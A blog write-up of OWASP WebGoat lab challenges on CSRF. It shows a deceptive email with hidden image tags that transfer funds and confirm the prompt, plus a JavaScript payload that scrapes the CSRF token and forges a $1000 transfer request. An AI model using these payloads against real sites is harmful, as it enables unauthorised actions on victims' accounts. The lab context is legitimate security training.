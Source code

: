 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Cross Site Scripting"
subtitle: "Cross Site Request Forgery Prompt and Token Bypass"
date:   2017-01-26 20:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# CSRF Prompt Bypass
Instructions:

- Similar to the CSRF Lesson, your goal is to send an email to a newsgroup that contains multiple malicious requests: the first to transfer funds, and the second a request to confirm the prompt that the first request triggered. The URL should point to the CSRF lesson with an extra parameter "transferFunds=4000", and "transferFunds=CONFIRM". You can copy the shortcut from the left hand menu by right clicking on the left hand menu and choosing copy shortcut. Whoever receives this email and happens to be authenticated at that time will have his funds transferred. When you think the attack is successful, refresh the page and you will find the green check on the left hand side menu.

Okay, these requests both access the same resource so it's not possible to concantenate them into a single request. Let's try to make an email that contains two hidden request images:

```
Hey everyone,

This is a totally legit email, and most definitely about a topic you care deeply for.
Just thought I would let you know that we are still interested in it as well.
Thanks!

-HackerAttacker@7proxies.net
<img src=http://192.168.56.101//WebGoat/attack?Screen=45&menu=900&transferFunds=4000 alt="" style="width:1;height:1;">
<img src=http://192.168.56.101//WebGoat/attack?Screen=45&menu=900&transferFunds=CONFIRM alt="" style="width:1;height:1;">
```

We submit it:

<img src="{{ site.baseurl }}/images/webgoat/2017-01-26-webgoat_part_9_continued_continued/group-message.jpg">

And when someone clicks it, we transfer funds and bypass the prompt confirmation that would require user interaction!

# CSRF Token Bypass
Instructions:

- Similar to the CSRF Lesson, your goal is to send an email to a newsgroup that contains a malicious request to transfer funds. To successfully complete you need to obtain a valid request token. The page that presents the transfer funds form contains a valid request token. The URL for the transfer funds page is the same as this lesson with an extra parameter "transferFunds=main". Load this page, read the token and append the token in a forged request to transferFunds.

Okay, so what is a request token? Let's send a request to ```transferFunds=main``` and see if we can see what this token is.

```
GET http://192.168.56.101/WebGoat/attack?Screen=2&menu=900%transferFunds=main HTTP/1.1
```

In the response, we see the value:

```
<input name='CSRFToken' type='hidden' value='541224727'>
```

Which is hidden in the transfer page:

<img src="{{ site.baseurl }}/images/webgoat/2017-01-26-webgoat_part_9_continued_continued/transfer-page.jpg">

When we try to send a transfer request for $1000, the following request is generated:

```
192.168.56.101/WebGoat/attack?Screen=2&menu=900transferFunds=1000&CSRFToken=541224727
```

After sending a few requests, it becomes clear that ```CSRFToken``` is a dynamic field. Alright, so we need to pull the value of the token on each request, and format that value into a CSRF attack on the user utilizing the ```transferFunds``` function. This would be likely true for any multi-user attack even if the fields were static, as we want to target all of the users with the same XSS/CSRF injection. So let's write up a payload:

```
<script>
function transferFunds(token) {
	xmlHTTP = new XMLHttpRequest();
	var transferURL= "attack?Screen=2&menu=900&transferFunds=1000&CSRFToken=" + token;
	xmlHTTP.open("POST", transferURL, false);
	xmlHTTP.send();

	alert("$1000 transferred from " + token)
}
function tokenGrabCSRF() {
	var xmlHTTP = new XMLHttpRequest();
	var tokenURL = "attack?Screen=2&menu=900&transferFunds=main";
	xmlHTTP.open("GET", tokenURL, true);
	xmlHTTP.responseType="document";
	xmlHTTP.onreadystatechange = function () {
		if(xmlHTTP.readyState == 4 && xmlHTTP.status == 200) {
			var tokenResponse = xmlHTTP.response;
			var tokenHits = tokenResponse.getElementsByName("CSRFToken");
			var token = (tokenHits[0].value);
			// now we attack
			transferFunds(token);
		}
	}
	xmlHTTP.send();
}
tokenGrabCSRF()
</script>
```

So I had to do a little more research on XMLHttpRequests and asynchronous vs. sychronous use of the ```open()``` function. It seems that most browsers don't want you to be using blocking html requests on the main thread, and that is especially true of any malicious code, as we don't want to alert the user to any weird unexplainable behavior in the site. So by using the ```onreadystatechange``` callback we are able to create our asynchronous attack.

The attack starts with the ```tokenGrabCSRF``` call. A request is generated and sent, asynchronously, to the webserver requesting the main transfer page. One important step is changing the value of ```XMLHttpRequest.responseType``` to "document". I was trying to perform this attack for a while by using the ```XMLHttpRequest.responseText``` field from the generic response, and found that the value was truncated to 9995 bytes, which only covered around half of the full response data. This was especially an issue, as the value of ```CSRFToken``` is embedded at the very end of the HTML, so I couldn't regex the value out of the text. By switching the ```responseType``` to "document" we are able to use DOM accession methods to pull the value of the token out of the response, and it doesn't seem to have the same data length restrictions as ```XMLHttpRequest.responseText```.

So continuing...When the state of the request changes ```onreadystatechange``` is triggered, our callback fires off. The callback checks to make sure that the response is a proper response to our request, and then accesses the value stored at the DOM element named```CSRFToken```. Another important note is that the ```document.getElementsByName``` function returns a list regardless of how many hits are in the document. Assumming (luckily correctly) that there was just one element with the token name, we pull the first element from the list and send its value to malicous function 2: ```transferFunds()```

```transferFunds``` is more straightforward. We just make a request to the transfer URL with our requested amount and our newly acquired ```CSRFToken``` value and our attack is complete! This was done synchronously simply because we don't care or need the response or to parse any data from it, so there is no possibility of blocking.

Now that we have completed our payload, we can inject it into an innocent looking email and send it out to our mailing list:

<img src="{{ site.baseurl }}/images/webgoat/2017-01-26-webgoat_part_9_continued_continued/transfer-email.jpg">

And when we click it, the funds are transfered using the stolen token!

<img src="{{ site.baseurl }}/images/webgoat/2017-01-26-webgoat_part_9_continued_continued/transfer-success.jpg">

So CSRF can be utilized in XSS attacks to leverage the authentication levels of compromised users to perform unwanted actions on the authenticated application.

All your links are belong to us.

### References

[1. XMLHttpRequest Documentation][xml-http-docs]

[xml-http-docs]:https://xhr.spec.whatwg.org/#the-responsetype-attribute
